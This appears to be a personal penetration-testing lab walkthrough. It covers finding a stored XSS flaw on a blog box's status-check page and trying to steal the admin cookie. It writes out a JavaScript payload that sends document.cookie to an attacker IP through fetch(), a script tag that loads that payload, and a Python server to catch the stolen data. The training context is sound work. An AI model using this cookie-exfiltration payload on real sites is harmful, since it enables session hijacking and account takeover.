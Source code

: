 #### Starting page
- blog page
![[Pasted image 20250103211240.png]]
- multiple posts with users `nina, hope, and robert`
![[Pasted image 20250103211318.png]]
- nothing to click on web page gotta be a hidden directory of some sort, `posts` doesn't lead anywhere
#### /statuscheck.php
- gobuster results show this `status-check.php` and leads us to a place that we can post at, testing for `XSS`
![[Pasted image 20250103212135.png]]
- testing with `simple` payload first
![[Pasted image 20250103212343.png]]
- this worked because the `js` was processed vulnerable to `XSS`
![[Pasted image 20250103212413.png]]
##### /admin
- also found a login page at `admin` potentially use `XSS` to steal administrator cookie to login?
![[Pasted image 20250103212540.png]]
###### Payload 2 - `STEALING COOKIES`
```bash
┌──(root💀gobots)-[31Jul2024 20:53:19]-[/home/kali/SUT/OSWA/xss]
└─# vim stealing_cookie.js    

┌──(root💀gobots)-[31Jul2024 20:53:43]-[/home/kali/SUT/OSWA/xss]
└─# cat stealing_cookie.js                  
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.211.121/exfil?data=" + encodedCookie)


# set up python server
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
<script src="http://192.168.45.233:8000/stealing_cookie.js"></script>
```
- posted in the payload here
![[Pasted image 20250103213135.png]]
- got a hit on my `python3` server
![[Pasted image 20250103213155.png]]
bugged box again got hits still not working - jubula is trash
![[Pasted image 20250103213933.png]]

![[Pasted image 20250103213944.png]]